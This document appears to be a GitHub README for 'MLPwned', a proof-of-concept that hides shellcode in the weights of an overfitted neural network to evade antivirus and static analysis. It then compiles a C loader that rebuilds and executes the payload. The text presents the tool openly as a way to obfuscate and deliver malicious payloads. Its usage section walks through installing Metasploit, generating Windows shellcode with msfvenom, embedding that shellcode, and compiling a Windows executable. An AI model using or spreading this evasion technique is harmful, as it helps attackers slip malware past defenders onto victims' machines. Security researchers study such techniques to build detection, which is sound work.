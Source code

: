 # MLPwned

MLPwned is a proof-of-concept tool that uses a small, overfitted neural network (specifically a multi-layer perceptron) to store and reconstruct arbitrary shellcode at runtime. By embedding the shellcode bytes into the model’s learned weights, the script makes static analysis significantly more difficult. This is because traditional antivirus or forensic tools won’t directly detect malicious byte sequences in the binary. The final output is a self-contained C file that includes both the trained model parameters and logic needed to rebuild and execute the shellcode on demand, all without requiring a GPU. This approach is inspired by implicit neural representations, highlighting how neural networks can be used in unconventional ways to obfuscate and deliver malicious payloads.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [License](#license)

## Installation

### 1. Install Metasploit

Download and install Metasploit using the following commands:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```

### 2. Install Python Packages

```bash
pip install -r requirements.txt
```

### 3. Install MinGW-w64

```bash
sudo apt update
sudo apt install mingw-w64
```

## Usage

### 1. Generate Shellcode with msfvenom

```bash
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD=calc.exe -f python
```
![MLPwned Screenshot](assets/2.jpg)

### 2. Embed the Shellcode into MLPwned.py
Copy and paste the Python-formatted shellcode into MLPwned.py under the comment:
```bash
# Add msfvenom shellcode below
```

### 3. Run the Python Script

```bash
python MLPwned.py
```
![MLPwned Screenshot](assets/1.jpg)


### 4. Compile MLPwned.c to a Windows Executable

```bash
x86_64-w64-mingw32-gcc -o MLPwned.exe MLPwned.c
```